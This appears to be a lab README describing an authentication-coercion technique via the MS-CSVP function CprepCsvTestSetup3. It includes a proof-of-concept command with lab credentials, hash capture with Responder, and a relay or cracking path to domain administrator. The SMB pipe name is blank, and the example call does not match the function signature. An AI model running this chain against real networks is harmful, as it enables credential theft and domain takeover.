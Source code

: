 # MS-CSVP - Remote call to CprepCsvTestSetup3 (opnum 5)

## Summary

 - **Protocol**: [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279)

 - **Protocol UUID**: 12108a88-6858-4467-b92f-e6cf4568dfb6

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`CprepCsvTestSetup3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/3a1d7771-c039-43d2-a882-30fdb6e0531c)

 - **Function operation number**: `5`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol (with uuid `12108a88-6858-4467-b92f-e6cf4568dfb6` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) and allows to call RPC functions of this protocol. We will then call the remote [`CprepCsvTestSetup3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/3a1d7771-c039-43d2-a882-30fdb6e0531c) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CprepCsvTestSetup3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CprepCsvTestSetup3(
   [in] GUID TestShareGuid,
   [in, string] LPWSTR Reserved
 );
```

## References

 - Documentation of protocol [MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279

 - Documentation of function `CprepCsvTestSetup3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/3a1d7771-c039-43d2-a882-30fdb6e0531c